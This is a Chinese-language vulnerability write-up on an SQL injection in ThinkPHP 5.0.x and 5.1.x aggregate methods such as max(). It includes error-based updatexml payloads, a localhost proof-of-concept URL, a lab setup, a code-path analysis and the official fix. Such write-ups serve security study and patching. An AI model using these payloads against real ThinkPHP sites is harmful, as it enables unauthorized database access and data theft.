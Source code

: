 5.0.0 \<= Thinkphp \<= 5.0.21 & 5.1.3\<=ThinkPHP5\<=5.1.25
==========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql**
聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql**
聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进
**SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

漏洞概要
--------

二、漏洞影响
------------

5.0.0\<=ThinkPHP\<=5.0.21

5.1.3\<=ThinkPHP5\<=5.1.25

三、复现过程
------------

不同版本 **payload** 需稍作调整：

 **5.0.0\~5.0.21** 、 **5.1.3～5.1.10** ：

    id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

**5.1.11～5.1.25** ：

    id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

漏洞环境
--------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.1.25 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.25"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $options = request()->get('options');
            $result = db('users')->max($options);
            var_dump($result);
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'Mochazz');
    insert into users(id,username) values(2,'Jerry');
    insert into users(id,username) values(3,'Kitty');

### poc

    http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId27.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId29.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId30.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max**
方法进行聚合查询语句构造，接着调用本类的 **aggregate**
方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在
**SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的
**aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量
**\$field** ，经过 **parseKey** 方法处理后，与 **SQL**
语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId31.png)

**parseKey**
方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过
**parseKey** 方法处理后，程序又回到了上图的 **\$this-\>value()**
方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL**
语句。这个方法应该说是在分析 **ThinkPHP**
漏洞时，非常常见的了。其无非就是使用 **str\_replace** 方法，将变量替换到
**SQL** 语句模板中。这里，我们重点关注 **parseField**
方法，因为用户可控数据存储在 **\$options\[\'field\'\]**
变量中并被传入该方法。

![5.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId32.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey**
方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL**
语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId33.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号**
以外的字符时，就抛出异常。

![3.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId35.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](./resource/5.1.3<=ThinkPHP5<=5.1.25sql注入漏洞/media/rId37.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln

